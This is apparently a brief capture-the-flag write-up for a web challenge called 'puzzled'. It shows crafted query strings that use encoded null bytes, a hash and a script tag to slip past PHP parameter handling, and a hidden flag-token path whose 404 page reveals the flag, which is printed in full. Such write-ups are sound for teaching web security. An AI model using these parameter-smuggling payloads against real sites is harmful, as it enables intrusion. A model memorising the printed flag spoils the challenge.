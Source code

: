 got to the page
https://puzzled.challs.cybersecuritychallenge.ro/

saw that error. imagined something like `$_GET['show%00code#<script>$x="%00";</script>aaa=']`

got to

https://puzzled.challs.cybersecuritychallenge.ro/?show%2500code%23%3Cscript%3E$x%3d%22%2500%22%3b%3C/script%3Eaaa=1234&stop=

then

https://puzzled.challs.cybersecuritychallenge.ro/?show%2500code%23%3Cscript%3E$x%3d%22%2500%22%3b%3C/script%3Eaaa=1234&stop=&flag_token_sada3edewdc32dwq=123

no luck. tried the file. got redirect.

https://puzzled.challs.cybersecuritychallenge.ro/flag_token_sad123a3edewdc32dwasd22343qds.php/

flag is in js
```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /resize/flag_token_sad123a3edewdc32dwasd22343qds.php/ was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at localhost Port 443</address>
</body></html>
<script type="text/javascript">ECSC{3400e9d1deef6a35d288c2ec8b8ddc03b4830eaba12c26b6f8bca9adcd83b9ef}</script>
```
